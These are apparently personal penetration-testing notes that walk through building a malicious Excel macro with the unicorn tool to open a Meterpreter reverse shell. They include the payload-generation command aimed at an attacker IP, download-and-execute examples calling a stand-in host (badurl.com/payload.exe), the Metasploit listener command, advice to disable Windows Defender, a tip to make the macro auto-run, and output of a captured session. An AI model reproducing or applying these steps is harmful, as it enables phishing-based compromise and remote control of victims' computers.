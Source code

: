 ## Pre-requisite - [[Macros]]

## Using unicorn tool

#### Checking the payload for creation
```python
┌──(hyok㉿kali)-[/opt/unicorn]
└─$ ./unicorn.py
Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
PS Down/Exec Macro: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA SettingContent-ms Metasploit: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example SettingContent-ms: python unicorn.py <cobalt_strike_file.cs cs ms
HTA Example SettingContent-ms: python unicorn.py <patth_to_shellcode.txt>: shellcode ms
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
------------------------------------SNIP----------------------------------------
```

#### Payload creation 
```python
python unicorn.py windows/meterpreter/reverse_https 192.168.1.106 443 macro
```
- This creates a text file and a ".rc" file with the same name and on the same destination. 
![[unicor_output.png]]
- We run the command the shown by the unicorn to create a listener for our payload.
```python
msfconsole -r umicorn.rc
```

#### macro creation on excel
###### Step-1
![[step1_macro_creation.png]]

###### Step-2
![[step2_macro_creation.png]]

###### Step-3
![[step3_macro_creation.png]]
- The data that was paste above here is grabed from the file "powershell_attack.txt".
###### Step-4
![[step4_macro_creation.png]]
- If you are not able to save the file then you should disable "windows defender".
#### Enabling macro on excel
###### Step-1
![[Enabling_macro_step1.png]]

###### Step-2
![[Enabling_macro_step2.png]]

###### Step-3
![[Enabling_macro_step4.png]]

#### Opening the maclicious excel file(CSV file)
**Note** - If you are not able to open this file then kindly disable the "windows defender".
![[opening_CSV.png]]

###### You get a session
```python
msf6 exploit(multi/handler) > [*] https://192.168.1.7:443 handling request from 192.168.1.5; (UUID: byqezprj) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.7:443 -> 192.168.1.5:60055) at 2023-04-20 14:41:50 +0530

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               192.168.1.7:443 -> 192.168.1.5:60055 (192.168.1.5)
```

# Note
- If you can't get a session after opening the "macro enabled excel file" then you should change "Sub AutoOpen()" to "Sub Auto_Open()" in the macro code.